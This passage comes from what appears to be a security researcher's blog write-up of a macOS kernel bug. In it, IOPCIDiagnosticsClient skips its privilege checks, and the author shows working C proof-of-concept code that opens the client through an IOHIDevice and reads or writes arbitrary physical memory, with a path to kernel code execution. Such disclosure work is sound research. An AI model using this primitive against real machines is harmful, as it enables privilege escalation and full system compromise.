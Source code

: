 
    if (map) map->release();

    return (ret);
}
{% endhighlight %}

There are checks in place to ensure that `IOPCIDiagnosticsClient` can only be used by an authorized
user. Specifically, `IOPCIBridge::newUserClient` checks that the caller has administrator
privileges and that the debug boot argument is set before instantiating the client. However, these
checks are not performed in `IOPCIDiagnosticsClient::initWithTask`, so they are completely bypassed
when allocating this user client via the method above.

## Accessing physical memory

My next step was to write a proof-of-concept exploit that would leverage the ability to set
arbitrary properties in `IOHIDevice` instances to directly access physical memory. Creating the
connection to `IOPCIDiagnosticsClient` is quite simple:

{% highlight C %}
// Get a handle to a subclass of IOHIDevice that allows setting arbitrary
// IORegistry properties.
io_service_t service = IOServiceGetMatchingService(kIOMasterPortDefault,
        IOServiceMatching("IOHIDevice"));
// Set the IOUserClientClass property to IOPCIDiagnosticsClient.
IORegistryEntrySetCFProperty(service,
        CFSTR("IOUserClientClass"),
        CFSTR("IOPCIDiagnosticsClient"));
// Create a connection to the IOPCIDiagnosticsClient.
io_connect_t connection;
IOServiceOpen(service, mach_task_self(), 0, &connection);
{% endhighlight %}

Physical memory can then be read or written by calling the appropriate method on the user client:

{% highlight C %}
struct IOPCIDiagnosticsParameters param;
param.spaceType      = kIOPCI64BitMemorySpace;
param.bitWidth       = width * 8;
param.options        = 0;
param.address.addr64 = paddr;
param.value          = -1;
size_t size = sizeof(param);
IOConnectCallMethod(connection, kIOPCIDiagnosticsMethodRead,
                    NULL,       0,
                    &param,     sizeof(param),
                    NULL,       NULL,
                    &param,     &size);
// Result in param.value.
{% endhighlight %}

The initial version of physmem provided a simple command-line tool to read or write words of
physical memory. However, with such a powerful (and reliable) read/write primitive, I knew it would
be quite easy to get kernel code execution.
